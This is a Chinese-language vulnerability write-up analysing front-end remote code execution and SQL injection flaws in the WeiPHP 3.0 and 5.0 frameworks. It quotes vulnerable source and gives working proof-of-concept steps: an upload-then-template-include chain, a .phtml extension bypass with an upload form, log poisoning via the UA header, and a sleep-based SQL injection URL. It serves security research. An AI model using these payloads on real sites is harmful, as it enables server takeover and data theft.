





Weiphp3.0&&5.0 前台 rce&&sql 注入分析

- - -

## Weiphp3.0&&5.0 前台 rce&&sql 注入分析

### Background

Weiphp 是一个基于 Thinkphp 开发的小程序端广泛使用的框架，曾经在某次看小程序时候发现这套 cms，很久以前就看了 weiphp3.0 和 5.0 的代码，虽然网上已经有很多漏洞分析，但是我比对了一下，发现和我分析到的还是不完全一样的，所以写一篇文章将此记录

### 0x01 Weiphp3.0 前台 rce

3.0 使用的是 Thinkphp3.0 的板子，但实际上现在互联网还是有一些公开资产

首先 thinkphp3.0 这种低版本一般带的一些静态依赖的组件也是低版本

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202004008-8f333a9a-c120-1.png)

比如 static 里面存在一个 ueditor，ueditor 低版本会有各种奇奇怪怪的玩法，而在 ueitor/php/scrawlUp.php 里面你可以看到是一个文件上传的接口

```plain
//获取当前上传的类型
    $action = htmlspecialchars( $_GET[ "action" ] );
    if ( $action == "tmpImg" ) { // 背景上传
        //背景保存在临时目录中
        $config[ "savePath" ] = $tmpPath;
        $up = new Uploader( "upfile" , $config );
        $info = $up->getFileInfo();
        /**
         * 返回数据，调用父页面的 ue_callback 回调
         */
        echo "<script>parent.ue_callback('" . $info[ "url" ] . "','" . $info[ "state" ] . "')</script>";
    } else {
        //涂鸦上传，上传方式采用了 base64 编码模式，所以第三个参数设置为 true
        $up = new Uploader( "content" , $config , true );
        //上传成功后删除临时目录
        if(file_exists($tmpPath)){
            delDir($tmpPath);
        }
        $info = $up->getFileInfo();
        echo "{'url':'" . $info[ "url" ] . "',state:'" . $info[ "state" ] . "'}";
    }
```

而且 action 参数是可控的，如果设置为空，将会调用这个涂鸦上传使用 base64 编码形式，继续跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202004019-95f15b78-c120-1.png)

根据构造函数继续跟进$fieleField

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202004028-9b380d84-c120-1.png)

在这里可以看见是 post 形式，所以我们 post 提交一个参数为 content 的 内容为 base64 编码的，将会生成一个图片

```plain
$info = $up->getFileInfo();
        echo "{'url':'" . $info[ "url" ] . "',state:'" . $info[ "state" ] . "'}";
```

而且在这里可以看到具体的信息位置，相当于我们已经可控了一个文件内容，虽然不能直接 shell，但是 thinkphp 经常出现文件包含可控的点，我们还可控文件内容和路径信息，就可以直接包含来 shell

翻了翻这些控制器，发现有一个论坛控制器

```plain
class ForumController extends HomeController {  
    // bbs 首页
    public function index($name = 'Forum', $temp = 'index') {
        ! isset ( $_GET ['model'] ) || $name = I ( 'model', 'Forum' );
        ! isset ( $_GET ['temp'] ) || $name = I ( 'temp', 'index' );

        $model = M ( 'Model' )->getByName ( $name );
        $this->assign ( 'model', $model );
        // dump ( $model );

        $this->right_data ( $model );

        unset ( $map );
        $page = I ( 'p', 1, 'intval' );
        $row = empty ( $model ['list_row'] ) ? 20 : $model ['list_row'];
        ! isset ( $_GET ['cid'] ) || $map ['cid'] = intval ( $_GET ['cid'] );
        $list_data ['list_data'] = M ( $name )->where ( $map )->order ( 'is_top desc, id DESC' )->page ( $page, $row )->select ();
   ......
   ......
     $this->display ( $temp );
```

因为 I 函数就是一个正常输入函数，temp 参数可控，最后会用 display 渲染$temp 变量

漏洞利用具体步骤

首先 Wei/Public/static/ueditor/php/scrawlUp.php

content=base64encode

生成找到具体文件地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202004044-a4e40c52-c120-1.png)

然后 Post 提交：

&temp=Public/static/ueditor/php/上传文件.png

即可 rce

### 0x02 Weiphp5.0 前台 rce

5.0 使用了 thinkphp5 作为板子

搜索 File.php 相关发现实际上有很多个，而且也有很多个 upload 方法

```plain
if (!is_login()){
            $return = array(
                    'status' => 0,
                    'code'=>0,
                    'info' => '上传失败，请先登录',
                    'msg' => '上传失败，请先登录',
                    'data' => ''
            );
            return json_encode($return);
        }
```

有的像这样做了登陆检测

但这个目录下的 home/model/File.php upload\_files 可是直接访问

```plain
if (empty($return['msg'])) {
        //判断扩展名是不是 php，不支持上传 php 文件
        $info = $file->getInfo();
        $info = pathinfo($info['name']);
        if (strtolower($info['extension']) == 'php') {
            $return['msg'] = '不支持上传该文件类型';
            $return['code'] = 0;
            $redata[$key] = $return;
            return $redata;
        }
```

虽然他做了如上的检测，但是后缀只 ban 了 php，有的可以使用 phtml 这种其它后缀绕过，一些版本可以用末尾加空格绕过，而且上传成功的 json 字符串里面也包含路径信息

构造一个 public/index.php/home/File/upload\_root post 传输数据的表单 就可以直接 shell 了

```plain
<html>
<body>
<form action="http://127.0.0.1/public/index.php/home/File/upload_root" method="post"
enctype="multipart/form-data">
<input type="file" name="download" id="file" />  
<br />
<input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
```

### 0x03 Weiphp5.0 前台 rce v2.0

这个 rce 也是一直在网上找不到的 关键点在于 在 application/common/controller/Base.php/中的 common\_add 方法和 common\_list 方法，两个方法都有一个共同点 就是$templateFile 都可通过参数绑定的方式来进行文件包含渲染

```plain
public function common_lists($model = null, $templateFile = '', $order = 'id desc')
    {
        // 获取模型信息
        is_array($model) || $model = $this->getModel($model);
        $list_data = $this->_get_model_list($model, $order);
        $this->assign($list_data);

        empty($templateFile) && $templateFile = 'lists';

        return $this->fetch($templateFile);
    }
```

```plain
public function common_add($model = null, $templateFile = '', $post_data = [])
    {
        is_array($model) || $model = $this->getModel($model);
        if (request()->isPost()) {
            try {
                $Model = D($model['name']);
            } catch (\Exception $e) {
                if (strpos($e->getMessage(), 'not exists')) {
                    $Model = M($model['name']);
                } else {
                    $this->error('找不到操作模型');
                }
            }
            // 获取模型的字段信息
            $data = empty($post_data) ? input('post.') : $post_data;
            $data = $this->checkData($data, $model);
            // dump($data);exit;
            $id = $Model->insertGetId($data);
            if ($id) {
                $this->_saveKeyword($model, $id);

                // 清空缓存
                method_exists($Model, 'clearCache') && $Model->clearCache($id, 'add');

                $this->success('添加' . $model['title'] . '成功！', U('lists?model=' . $model['name'], $this->get_param));
            } else {
                $this->error($Model->getError());
            }
        } else {
            $fields = get_model_attribute($model);
            $this->assign('fields', $fields);
            // dump($fields);
            empty($templateFile) && $templateFile = 'add';

            return $this->fetch($templateFile);
        }
    }
```

这个参数绑定是很有意思的，就是我们在调用时候会经过 Module.php 的处理

```plain
// 自动获取请求变量
                $vars = $this->rule->getConfig('url_param_type')
                ? $this->request->route()
                : $this->request->param();
                $vars = array_merge($vars, $this->param);
```

通过 param 方法获取输入的参数，之后进入 invokeReflectMethod

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202004059-adde9ebc-c120-1.png)

在这里进行参数绑定然后调用方法，内容可以包含进日志插入 UA 头

最后 poc 如下 public/index.php/coupon/api/common\_add?templateFile=日志地址

### 0x04 Weiphp5.0 前台 sql 注入

看网上分析的都是什么 bind\_follow exp 注入，但是实际上在 application/material 的控制器里面在查询 title 那里

```plain
$title = I('title');
        // dump($title);exit;
        if (!empty($title)) {
            $map['title'] = array(
                'like',
                "%$title%"
            );
            $where .= " and `title` like '%$title%'";
        }
        $count = M()->query("SELECT COUNT( distinct `group_id`) AS tp_count FROM `wp_material_news` WHERE {$where} LIMIT 1");
```

​ title 没有被任何过滤直接代入了查询中

```plain
public/index.php/Material/Material/material_lists?title=-1'or sleep(3) --
```

就可以直接注入了
